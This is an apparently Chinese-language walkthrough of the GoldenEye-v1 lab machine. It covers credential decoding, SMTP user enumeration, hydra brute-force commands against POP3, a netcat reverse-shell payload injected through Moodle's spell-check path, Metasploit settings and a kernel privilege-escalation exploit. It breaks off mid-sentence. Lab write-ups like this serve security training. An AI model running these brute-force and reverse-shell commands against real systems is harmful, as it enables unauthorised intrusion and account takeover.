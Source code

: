 # GoldenEye-v1

![image-20200628205842666](assets/GoldenEye-v1.assets/image-20200628205842666.png)

![image-20200628210117442](assets/GoldenEye-v1.assets/image-20200628210117442.png)

![image-20200628203148585](assets/GoldenEye-v1.assets/image-20200628203148585.png)

![image-20200628203234215](assets/GoldenEye-v1.assets/image-20200628203234215.png)

```bash
boris:&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
```

并且额外知道了另一个用户natalya

bp使用html解码

![image-20200628203338181](assets/GoldenEye-v1.assets/image-20200628203338181.png)

```bash
boris:InvincibleHack3r
```

![image-20200628203539893](assets/GoldenEye-v1.assets/image-20200628203539893.png)

![image-20200628203814681](assets/GoldenEye-v1.assets/image-20200628203814681.png)

再没有更多的信息了。

尝试使用得到的凭证在25端口上复用，但是失败。

尝试利用已知的两个用户名，在25端口上进行暴力。

首先通过VRFY命令确认用户名是否存在，

![image-20200628204444559](assets/GoldenEye-v1.assets/image-20200628204444559.png)

两个用户都存在，分别爆破密码

```bash
hydra -v -l boris -P /usr/share/wordlists/fasttrack.txt -t 20 192.168.43.239 -s 55007 -I pop3
hydra -v -l natalya -P /usr/share/wordlists/fasttrack.txt -t 20 192.168.43.239 -s 55007 -I pop3
```

![image-20200628210521185](assets/GoldenEye-v1.assets/image-20200628210521185.png)

![image-20200628210913995](assets/GoldenEye-v1.assets/image-20200628210913995.png)

boris

```bash
boris:secret1!
```



![image-20200628210758507](assets/GoldenEye-v1.assets/image-20200628210758507.png)

成功登录，但是三封邮件都没有什么关键信息。

natalya

```bash
natalya:bird
```

![image-20200628211109388](assets/GoldenEye-v1.assets/image-20200628211109388.png)

第二封邮件中发现重要信息

![image-20200628211249092](assets/GoldenEye-v1.assets/image-20200628211249092.png)

```bash
username: xenia
password: RCP90rulez!
severnaya-station.com
severnaya-station.com/gnocertdir
```

修改hosts

![image-20200628211505466](assets/GoldenEye-v1.assets/image-20200628211505466.png)

![image-20200628211617915](assets/GoldenEye-v1.assets/image-20200628211617915.png)

![image-20200628211703602](assets/GoldenEye-v1.assets/image-20200628211703602.png)

![image-20200628212739347](assets/GoldenEye-v1.assets/image-20200628212739347.png)

在右侧发现，显然后台是有管理员帐户admin的返回查看了登录框。显然暴力不是合适的处理方式。继续搜寻线索

![image-20200628212719461](assets/GoldenEye-v1.assets/image-20200628212719461.png)

查看了一圈并没有什么可利用的点，但是找到了另外一个用户

![image-20200628212017482](assets/GoldenEye-v1.assets/image-20200628212017482.png)

doak，再次在邮件服务中确认用户

![image-20200628212226792](assets/GoldenEye-v1.assets/image-20200628212226792.png)

用户存在，爆破密码

```bash
hydra -v -l doak -P /usr/share/wordlists/fasttrack.txt -t 20 192.168.43.239 -s 55007 -I pop3
```

![image-20200628212906236](assets/GoldenEye-v1.assets/image-20200628212906236.png)

```bash
doak:goat
```

换账户登录邮件

![image-20200628213117682](assets/GoldenEye-v1.assets/image-20200628213117682.png)

```bash
username: dr_doak
password: 4England!
```

使用新凭证登录网站，消息中有和admin user的联系人，但是并没有什么消息。

![image-20200628213247498](assets/GoldenEye-v1.assets/image-20200628213247498.png)

但是在个人文件中发现线索

![image-20200628213453978](assets/GoldenEye-v1.assets/image-20200628213453978.png)

![image-20200628213526657](assets/GoldenEye-v1.assets/image-20200628213526657.png)

```bash
http://severnaya-station.com/dir007key/for-007.jpg
```

![image-20200628213606940](assets/GoldenEye-v1.assets/image-20200628213606940.png)

注意到图片下方的文字，捡起了一把access key，应该有凭证

下载到本地分析

![image-20200628213831947](assets/GoldenEye-v1.assets/image-20200628213831947.png)

exif中存有base64信息

![image-20200628213928650](assets/GoldenEye-v1.assets/image-20200628213928650.png)

```bash
xWinter1995x!
```

猜测为admin密码。

尝试登录网站

成功，并且admin拥有额外的管理功能。在system paths中的aspell看上去是可以执行系统命令的。

![image-20200628214349022](assets/GoldenEye-v1.assets/image-20200628214349022.png)

我们来尝试写入我们自己的payload，注意，这里一定要保留 sh -c，而中间的内容则可以修改。因为这个PSpellshell中并不能直接执行，而是要先调用sh，让sh去执行命令。

```bash
sh -c '(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.66 4444 >/tmp/f)'
```

![image-20200628215040614](assets/GoldenEye-v1.assets/image-20200628215040614.png)

换了很多payload以及端口，尝试多次仍然不行。

换一个思路

![image-20200628223352949](assets/GoldenEye-v1.assets/image-20200628223352949.png)

版本号moodle 2.2.3

msf

![image-20200628223946253](assets/GoldenEye-v1.assets/image-20200628223946253.png)

```bash
set PASSWORD xWinter1995x!
set rhosts 192.168.43.239
set VHOST severnaya-station.com
set TARGETURI /gnocertdir
set lhost 192.168.43.66
set lport 4444
```

![image-20200628224922190](assets/GoldenEye-v1.assets/image-20200628224922190.png)

也失败了。

![image-20200628225118518](assets/GoldenEye-v1.assets/image-20200628225118518.png)

嗯嗯嗯嗯。。。

检查平台设置，一定是一些设置阻止了正常执行，手动执行时返回是正常检查了文本，那么可能payload根本就没被调用

![image-20200628230914585](assets/GoldenEye-v1.assets/image-20200628230914585.png)

终于在设置中找到下面的拼写检查引擎设置，网站默认使用的是google spell，而并不是我们之前手动尝试的pspellshell，这就是为什么无论手动还是msf都无法正确执行的原因。![image-20200628231135107](assets/GoldenEye-v1.assets/image-20200628231135107.png)

修改成我们需要的选项

![image-20200628231356871](assets/GoldenEye-v1.assets/image-20200628231356871.png)

修改过之后无论手动还是msf都可以正确执行了。

![image-20200628234706855](assets/GoldenEye-v1.assets/image-20200628234706855.png)

![image-20200628232542844](assets/GoldenEye-v1.assets/image-20200628232542844.png)

![image-20200628232916256](assets/GoldenEye-v1.assets/image-20200628232916256.png)

![image-20200628233126169](assets/GoldenEye-v1.assets/image-20200628233126169.png)

直接内核提权。37292

值得注意的是

目标机器上并没有安装gcc而是cc

![image-20200628233227105](assets/GoldenEye-v1.assets/image-20200628233227105.png)

所以要把代码中的命令改为CC

![image-20200628233448676](assets/GoldenEye-v1.assets/image-20200628233448676.png)

，否则提权会失败，出现没有找到gcc

![image-20200628233850923](assets/GoldenEye-v1.assets/image-20200628233850923.png)

修改后编译上传执行。root。

这部分没什么意思，所以就简写了。

![image-20200628233941647](assets/GoldenEye-v1.assets/image-20200628233941647.png)

倒是手动执行